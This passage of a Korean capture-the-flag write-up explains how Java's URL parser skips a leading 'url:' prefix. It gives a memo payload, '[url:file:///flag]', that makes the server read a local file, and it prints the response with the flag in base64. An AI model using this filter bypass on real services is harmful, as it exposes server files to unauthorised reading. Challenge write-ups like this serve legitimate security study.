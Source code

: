 ```java

        try {
            limit = spec.length();
            while ((limit > 0) && (spec.charAt(limit - 1) <= ' ')) {
                limit--;        //eliminate trailing whitespace
            }
            while ((start < limit) && (spec.charAt(start) <= ' ')) {
                start++;        // eliminate leading whitespace
            }

            if (spec.regionMatches(true, start, "url:", 0, 4)) {
                start += 4;
            }
            if (start < spec.length() && spec.charAt(start) == '#') {
                /* we're assuming this is a ref relative to the context URL.
                 * This means protocols cannot start w/ '#', but we must parse
                 * ref URL's like: "hello:there" w/ a ':' in them.
                 */
                aRef=true;
            }
...
```

바로 ‘url:’ 문자가 들어가면 그 뒤인 4번째 부터 URL로 인식하여 사용한다는 것이다. 

그리하여 아래 Payload를 Memo Context에 넣으면 base64로 Flag가 받아와진다.

```
[url:file:///flag]
```

```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <title>Simple Memo</title>
    <link href="/static/css/bootstrap.min.css" rel="stylesheet">
    <style>
        ...
    </style>
  </head>
<body>
      <!-- Begin page content -->
    <main role="main" class="container">
        <img src='data:image/jpeg;charset=utf-8;base64,Y29kZWdhdGUyMDIyezg5NTNiZjgzNGZkZGUzNGFlNTE5Mzc5NzVjNzhhODk1ODYzZGUxZTF9Cg=='><br/>
    </main>
</body>
</html>
```
